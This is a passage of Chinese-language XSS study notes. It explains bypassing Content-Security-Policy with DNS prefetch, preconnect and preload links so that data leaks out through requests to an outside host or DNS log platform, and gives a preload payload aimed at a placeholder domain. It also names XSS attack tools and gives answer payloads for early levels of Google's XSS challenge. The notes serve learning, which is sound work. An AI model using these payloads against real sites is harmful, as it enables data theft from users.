 ```javascript

</script>
```



因为域名的命名规则是 [\.-a-zA-Z0-9]+，所以需要对一些特殊字符进行替换

然后到 ns 服务器上获取 DNS 查询记录就可以了，我用的是这个[平台](http://ceye.io)

**preconnect**

preconnect(预连接)，与 DNS预解析 类似，但它不仅完成 DNS 预解析，还进行 TCP 握手和 TLS 协商

利用方式和上面类似

**preload**

preload 是一个新的 web 标准，提供了取回当前页面的特定资源更多的控制。它聚焦于取回当前页面并且提供了高优先权，而 prefetch 以低优先权取回下一个页面的资源

和其他属性值不同的是，它是由 connect-src 决定的，只有 CSP 长下面这样时才会对 href 里的资源发起请求

Content-Security-Policy: default-src 'self'; connect-src *;

然后就是和上面类似的 payload 了

`<link rel="preload" href=http://xxx.com>`

**prerender**

测试了下好像已经不行了，没有 CSP 头也不行

## xss工具

xss-proxy,xssshell,attackapi,anehta,avws

## xss学习资源

https://github.com/Ph0rse/Awesome-XSS 

[https://blog.csdn.net/qq_35513598/article/details/79861908](qq://txfile/#)

## 练习

先知xss挑战赛 以及Google'xss挑战有能力的话把这两个搞下。

## google xss

### level1

`<script>alert()</script>`

### level 2

`<img src="aaaaaaaa.jpg" onerror="alert()"></img>`

### level 3
